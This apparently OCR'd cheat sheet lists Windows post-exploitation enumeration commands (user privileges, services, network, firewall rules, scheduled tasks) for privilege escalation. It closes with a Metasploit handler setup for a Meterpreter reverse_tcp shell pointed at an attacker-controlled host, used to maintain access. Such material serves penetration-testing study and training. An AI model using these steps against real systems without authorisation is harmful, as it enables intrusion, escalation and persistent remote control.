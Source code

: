 **TL;DR**  
+  **WHOAMI**?  
whoami  
+  **CAN I DO SPECIAL THINGS**?  
WHOAMI /PRIV  
+  **SERVICES**  **-->**  SERVICES AT BOOT  **&**  SERVICES RAN THROUGH  **ICACLS**.**EXE**  
wmic service get name,startname  
NET START  
+  **NETWORK**  **CAPABILITIES?**  (CHECKS FOR 127)  
+  **SHELL**  **CAPABILITY**  **-->**  STAGED/NON-STAGED? FORMAT? ARCH? ENCODER? BIND/REVERSE?  
+  **SHELL**  **CAPABILITY**  **-->**  ENSURE CODE EXEC.  
+  **NETWORK CAPABILITY.**  
NETSTAT -ANOY  
+  **NET USERS**  (LATERAL MOVEMENT CAPABILITIES?)  
NET USERS  
NET LOCALGROUP  
NET USER <USERNAME> (AM I ADMIN? ANY SPECIAL GROUPS?)  
+  **ADMIN CAPABILITY?**  
NET LOCALGROUP ADMINISTRATORS  
+  **PERMITTED TRAFFIC**  **CAPABILITY**???  
netsh advfirewall firewall show rule name=**all**  
netsh advfirewall firewall show rule name=**inbound**  
netsh advfirewall firewall show rule name=**outbounD**  
+  **FILE TRANSFER CAPABILITY**???  
CERTUTIL?  
FTP?  
TFTP?  
VB?  
PS?  
SMB?  
NFS?  
+  **ANY SCHEDULED TASKS I/O OPERATIONS**?  
C:\ > schtasks /query /fo LIST /v > schtasks.txt  
+  **BINPATHS**?  
SC.EXE  
[  **+**  More to Come ]  
  
**Other Articles:**  
[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)  
[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)  
  
+  **Pro-tip - To prevent your shell from hanging as a result of any of these commands, prefix them with this!**  
cmd.exe /c <commands>  
cmd.exe /c start <commands>

  
+  **I just got shell on windows! What would S1REN do?**  
**-->**  Get a meterpreter shell.  
When it comes to a windows machine and receiving a low privilege shell - I do not mess around. I will always immediately work to maintain access and gain a more useful shell with meterpreter.  
msfconsole  
use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST <Attacking Machine IP>  
set LPORT <Listening Port>  
  